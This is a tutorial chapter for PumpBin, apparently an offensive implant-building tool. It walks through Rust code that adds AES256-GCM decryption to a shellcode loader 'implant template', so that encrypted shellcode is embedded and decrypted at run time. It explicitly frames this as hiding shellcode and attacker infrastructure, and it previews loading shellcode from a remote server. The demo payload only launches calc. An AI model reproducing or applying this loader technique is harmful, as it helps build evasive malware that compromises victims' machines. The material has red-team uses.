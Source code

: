 # Encryption

In this chapter, we will create a plugin that uses the AES256-GCM encryption method.

In the previous chapter, when we used PumpBin Maker to create a plugin, the Encrypt Type was set to None.
This option has two possible meanings in the real world:

1. You are using an encryption method that PumpBin does not support yet (please submit an issue)
1. You are using a custom encryption method (PumpBin will have a hook system in the future, and you will be able to run custom code during encryption, generation, or patching for maximum flexibility)

In both cases, you may want to make a Plugin of type `Remote`, and use a fixed encryption password, only using PumpBin to modify the shellcode url.

Besides, most hackers should want to encrypt their shellcode, and no one wants to expose their infrastructure.

## Creating a binary implant template

To create a plugin with encryption, our binary implant template needs to implement the corresponding decryption logic.

We will change it based on the [previous chapter code](https://github.com/pumpbin/pumpbin/tree/main/examples/create_thread).

Add the following dependencies to the end of the Cargo.toml file

```toml
aes-gcm = "0.10.3"
```

Add the following decryption function above the main function in main.rs

```rust
fn decrypt(data: &[u8]) -> Vec<u8> {
    const KEY: &[u8; 32] = b"$$KKKKKKKKKKKKKKKKKKKKKKKKKKKK$$";
    const NONCE: &[u8; 12] = b"$$NNNNNNNN$$";

    let aes = Aes256Gcm::new_from_slice(KEY).unwrap();
    let nonce = Nonce::from_slice(NONCE);
    aes.decrypt(nonce, data).unwrap()
}
```

Two of them are references to arrays wrapped in $$ and have already appeared in the previous chapter. They are two `Place Holder`, which are used by PumpBin to locate placeholder data.
(`Place Holder` is a fixed size, `Prefix` is a dynamic size, so in the previous chapter, Size Holder is needed to determine the real length of the shellcode)

Add the following code after the fourth line of the main function in main.rs

```rust
let shellcode = decrypt(shellcode);
```

The main function after the addition is complete is as follows

```rust
fn main() {
    let shellcode = include_bytes!("../shellcode");
    const SIZE_HOLDER: &str = "$$99999$$";
    let shellcode_len = usize::from_str_radix(SIZE_HOLDER, 10).unwrap();
    let shellcode = &shellcode[0..shellcode_len];
    let shellcode = decrypt(shellcode);
    let shellcode_size = shellcode.len();
    ...
```

Compiling the modified `create_thread` project, we will get a binary implant template that uses AES256-GCM to decrypt the shellcode.

```sh
cargo b -r
```

## Creating the plugin

We use PumpBin Maker to make the plugin. The rest of the operation is the same, the only difference is that Encrypt Type is set to AesGcm.

Key: `$$KKKKKKKKKKKKKKKKKKKKKKKKKKKK$$`

Nonce fill in `$$NNNNNNNN$$`

## Test Plugin

Install the plugin created with PumpBin and use `w64-exec-calc-shellcode-func` to generate a final implant. You should see the calc program start.

At this point, we have created a `Local` type plugin that uses the AES256-GCM encryption method

In the previous two chapters, I always highlighted `Local` to remind you that this is a keyword, and it is important to understand them correctly when using PumpBin.

In the next chapter, we will make our first plugin of type "Remote". This allows the shellcode to be hosted on a remote server.
PumpBin will generate an encrypted shellcode file according to the encryption settings (None is also an encryption method). The user will host the encrypted shellcode on a remote server and then tell PumpBin the hosting address.

The complete project file for this example is available in the PumpBin code repository at [examples/create_thread_encrypt](https://github.com/pumpbin/pumpbin/blob/main/examples/create_thread_encrypt/src/main.rs).
